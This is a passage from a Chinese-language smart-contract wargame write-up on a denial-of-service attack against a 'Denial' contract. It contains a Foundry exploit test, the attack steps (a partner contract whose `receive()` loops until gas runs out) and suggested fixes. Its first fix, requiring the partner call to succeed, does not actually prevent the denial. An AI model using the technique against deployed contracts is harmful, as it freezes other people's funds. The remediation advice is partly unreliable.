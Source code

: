 ```solidity
        vm.startPrank(owner);
        instance = new Denial();
        vm.deal(address(instance), 1 ether);
        vm.stopPrank();

        // 部署攻击合约
        attacker = new Attack();
    }

    function testDenialOfServiceAttack() public {
        // 1. 攻击者将恶意合约设置为 partner
        vm.prank(player);
        instance.setWithdrawPartner(address(attacker));

        // 2. owner 尝试提款
        vm.startPrank(owner);
        uint256 initialOwnerBalance = owner.balance;

        // 3. 断言交易会失败 (revert)
        // 因为对恶意 partner 的调用会耗尽所有 gas
        vm.expectRevert();
        instance.withdraw();

        // 4. 验证 owner 的余额没有增加
        assertEq(owner.balance, initialOwnerBalance);
        vm.stopPrank();
    }
}
```

### 关键攻击步骤

1.  **部署恶意合约**: 创建一个 `Attack` 合约，其 `receive()` 函数包含一个无限循环。
2.  **设置 `partner`**: 调用 `setWithdrawPartner()`，将 `Denial` 合约的 `partner` 设置为 `Attack` 合约的地址。
3.  **触发漏洞**: 当 `owner` 调用 `withdraw()` 时，对 `partner` 的 `call` 会触发 `Attack` 合约的 `receive()` 函数，耗尽所有 Gas，导致整个交易失败。

## 🛡️ 防御措施

1.  **检查外部调用的返回值**: 永远不要假设外部调用会成功。必须检查 `call` 的返回值，并对失败情况进行处理。

    ```solidity
    // 修复建议
    (bool sent, ) = partner.call{value: amountToSend}("");
    require(sent, "Failed to send Ether to partner");
    ```

2.  **遵循“检查-生效-交互”模式**: 应该在所有状态变更之后再与外部合约交互。虽然在本例中不是直接原因，但这是一个通用的安全最佳实践。
3.  **限制 Gas**: 在进行外部调用时，明确指定转发的 Gas 数量，而不是使用默认的全额转发。这可以限制恶意合约可能造成的损害。

    ```solidity
    // 限制 Gas
    partner.call{value: amountToSend, gas: 50000}("");
    ```
